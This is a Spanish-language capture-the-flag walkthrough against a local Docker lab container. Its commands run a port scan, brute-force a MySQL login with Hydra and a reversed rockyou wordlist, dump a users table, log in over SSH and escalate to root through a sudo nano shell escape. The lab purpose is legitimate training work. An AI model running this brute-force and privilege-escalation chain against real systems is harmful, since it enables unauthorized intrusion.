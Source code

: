 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![[Pasted image 20250203094357.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250203094438.png]]

Nos metemos en la web:

![[Pasted image 20250203094615.png]]

Invertimos el diccionario ya que con **Hydra** tarda mucho:

```Bash
tac /usr/share/wordlists/rockyou.txt >> invertido.txt
```

![[Pasted image 20250203094822.png]]

Quitamos los espacios en blanco:

```Bash
sed -i 's/ //g' invertido.txt
```

![[Pasted image 20250203094839.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -l capybarauser -P invertido.txt mysql://172.17.0.2
```

![[Pasted image 20250203105759.png]]

Nos conectamos con **MySQL**:

```Bash
mysql -h 172.17.0.2 -u capybarauser -pie168
```

![[Pasted image 20250203105948.png]]

```MySQL
SHOW databases;
```

![[Pasted image 20250203110027.png]]

```MySQL
USE pinguinasio_db;
```

![[Pasted image 20250203110129.png]]

```MySQL
SHOW tables;
```

![[Pasted image 20250203110206.png]]

```MySQL
SELECT * FROM users;
```

![[Pasted image 20250203110257.png]]

Nos conectamos con **SSH**:

```Bash
ssh mario@172.17.0.2
```

![[Pasted image 20250203110456.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250203110650.png]]

```Bash
sudo nano
```

![[Pasted image 20250203111033.png]]

![[Pasted image 20250203111422.png]]

```Bash
cntrl + r
```

![[Pasted image 20250203111435.png]]

```Bash
cntrl + x
```

![[Pasted image 20250203111054.png]]

```Bash
reset; bash 1>&0 2>&0
```

![[Pasted image 20250203111116.png]]

![[Pasted image 20250203111139.png]]

```Bash
cntrl + l
```

![[Pasted image 20250203111229.png]]

```Bash
whoami
```

![[Pasted image 20250203111255.png]]

